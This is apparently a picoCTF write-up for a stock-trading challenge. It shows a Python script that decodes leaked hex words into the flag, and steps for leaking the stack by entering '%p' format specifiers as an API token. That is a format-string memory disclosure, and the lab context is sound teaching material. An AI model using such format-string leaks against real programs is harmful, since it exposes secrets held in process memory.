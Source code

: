 ### Python Script
```python
hex_bytes=[0x6f636970, 0x7b465443, 0x306c5f49, 0x345f7435, 0x6d5f6c6c, 0x306d5f79, 0x5f79336e, 0x35343036, 0x64303664, 0x0000007d]

byte_seq = b''.join(x.to_bytes(4, 'little') for x in hex_bytes)
flag = byte_seq.decode('ascii')
    
print(flag)
```
```
$ python script.py
picoCTF{____REDACTED____}
```
## Solution

- Select the `Buy some stonks!` option
- Enter a bunch of `%p` as the API token
- Search for `0x6f636970` in the stack dump
- Copy the words until the first NULL byte
- For each word reverse the bytes
- Convert to ASCII string